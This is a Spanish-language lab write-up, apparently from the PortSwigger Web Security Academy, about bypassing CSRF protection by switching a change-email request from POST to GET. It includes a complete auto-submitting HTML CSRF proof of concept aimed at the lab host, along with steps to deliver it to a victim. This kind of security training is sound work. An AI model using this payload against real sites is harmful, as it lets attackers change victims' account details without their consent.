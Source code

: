 ![20250709214546.png](20250709214546.png)

Algunas aplicaciones realizan la validación del CSRF dependiendo del método (GET, POST). En este laboratorio se omite la validación cuando se usa el método GET.

## LAB 

![20250709214916.png](20250709214916.png)

En este contexto, vamos a interceptar la solicitud de actualización del correo, para luego cambiar el método de POST a GET.

- POST:
![20250709215041.png](20250709215041.png)

- GET: 
![20250709214901.png](20250709214901.png)

Luego de tener la solicitud en en el método GET vamos a crear nuestra POC, con ayuda de [CSRFShark](https://csrfshark.github.io/app/) 

![20250709215216.png](20250709215216.png)

```html
<!DOCTYPE html>
<html lang="en">
	<body>
		<h1>Form CSRF PoC</h1>
		<form method="GET" action="https://0ad10064047185b6805f44eb00e300ff.web-security-academy.net/my-account/change-email">
			<input type="hidden" name="email" value="test@test.net">
			<input type="hidden" name="csrf" value="S61bjUKLaX12dcJvYc4voGjs357JK2eK">
			<input type="submit" value="Submit Request">
		</form>
    <script>
      document.forms[0].submit();
    </script>
	</body>
</html>
```

Al código malicioso agregaremos:

```html
    <script>
      document.forms[0].submit();
    </script>
```

Que enviará automáticamente (sin intervención del usuario) el primer formulario HTML (`forms[0]`) que se encuentra en el documento cuando se carga la página.

Luego debemos de copiar y pegar en el cuerpo de nuetro servidor malicioso y presionar "Deviler expliot to victim"